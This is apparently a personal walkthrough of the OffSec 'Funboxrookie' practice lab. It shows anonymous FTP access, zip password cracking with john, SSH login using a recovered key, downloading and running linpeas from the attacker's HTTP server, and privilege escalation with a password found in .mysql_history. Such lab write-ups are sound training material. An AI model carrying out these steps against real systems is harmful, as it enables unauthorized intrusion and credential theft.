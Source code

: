 
# OffSec labs - Funboxrookie

Initial nmap scan showed a few open and interesting ports: 
```shell
nmap -sV -sC -n -O -T4 -p- -Oa scan 192.168.89.107/24

```
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5e
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
| -r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
| -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
|_-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f9467dfe0c4da97e2d77740fa2517251 (RSA)
|   256 15004667809b40123a0c6607db1d1847 (ECDSA)
|_  256 75ba6695bb0f16de7e7ea17b273bb058 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/logs/
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Aggressive OS guesses: Linux 2.6.32 (91%), Linux 2.6.32 or 3.10 (91%), Linux 3.4 (91%), Linux 3.5 (91%), Linux 4.2 (91%), Linux 4.4 (91%), Synology DiskStation Manager 5.1 (91%), WatchGuard Fireware 11.8 (91%), Linux 2.6.35 (90%), Linux 3.10 (90%)
```

We see nmap identified port 21 on FTP as anonymous login enabled, it also gives us a list of files on the server.
lets login 
```shell
ftp anonymous@192.168.89.107
```
lets see if we can upload something 
```shell
ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||41295|)
550 test.txt: Operation not permitted
```
Nope, no luck, lets download the file on here and snoop around in them

```shell
                                                                               
┌──(kali㉿kali)-[~/Documents/funboxrookie/ftp]
└─$ unzip anna.zip    
Archive:  anna.zip
[anna.zip] id_rsa password:
```
We need a password to unzip them! 
Lets move on to the webserver and see what we can do on port 80
Looks like an apache page, lets try to find some directories

```shell
gobuster dir -u http://192.168.89.107 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
No luck on finding directories, lets try to crack one of the zip files passwords with john 

```shell
zip2john cathrine.zip > cat.john
```
Now lets try to crack it! 
```shell
john cat.john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press `q` or Ctrl-C to abort, almost any other key for status
catwoman         (cathrine.zip/id_rsa)     
1g 0:00:00:00 DONE (2022-11-14 19:29) 33.33g/s 273066p/s 273066c/s 273066C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
we got a password!

lets unzip the file

```shell
unzip cathrine.zip 
Archive:  cathrine.zip
[cathrine.zip] id_rsa password: 
  inflating: id_rsa
```
Looks like an rsa key was in the zip file, hopefully we can use it to ssh into the server, lets try.

```shell
ssh cathrine@192.168.89.107 -i id_rsa
Connection closed by 192.168.89.107 port 22
```
It didn't work! We forgot to change the file permissions...

```shell
sudo chmod 600 id_rsa
```
Lets try again

```shell
ssh cathrine@192.168.89.107 -i id_rsa
Connection closed by 192.168.89.107 port 22
```
still not working....
i'm gonna crack another zip and try that rsa key. 

After cracking, unzipping, and changing perms for tom.zip we can finally connect.

```shell
ssh tom@192.168.89.107 -i id_rsa     
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-117-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Nov 15 00:50:35 UTC 2022

  System load:  0.0               Processes:             164
  Usage of /:   74.7% of 4.37GB   Users logged in:       0
  Memory usage: 36%               IP address for ens256: 192.168.89.107
  Swap usage:   0%


30 packages can be updated.
0 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

tom@funbox2:~$ 
ls
cat local.txt 
```

got the user flag! 

now lets try to privesc, running linpeas.sh

on my box:
```shell
python3 -m `http.server`
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
in ssh session:
```shell
wget http://<ip>:8000/peas.sh
```
```shell
bash peas.sh
```
linpeas didn`t turn up anything usefull, lets check out history files

trying to cd anywhere gives an error, lets upgrade to a full tty python

```shell
python3 -c `import os; os.system("/bin/bash");`
```
Now lets check some history files, bash first
```shell
cat .bash_history
```
blank! 

this sql one looks interesting 

```shell
tom@funbox2:~$ cat .mysql_history 
_HiStOrY_V2_
show\040databases;
quit
create\040database\040`support`;
create\040database\040support;
use\040support
create\040table\040users;
show\040tables
;
select\040*\040from\040support
;
show\040tables;
select\040*\040from\040support;
insert\040into\040support\040(tom,\040xx11yy22!);
quit

```
Looks like a possible password in the last query? lets try it 

```shell
tom@funbox2:~$ sudo -l
[sudo] password for tom: 
Matching Defaults entries for tom on funbox2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tom may run the following commands on funbox2:
    (ALL : ALL) ALL

```
ALL COMMANDS! 
```shell
sudo su
root@funbox2:/home/tom# whoami
root
```
WE GOT ROOT

```shell
cd /root/
cat proof.txt
```

Overall easy box covering: anonymous FPT login, password cracking, and lack of history cleaning.  



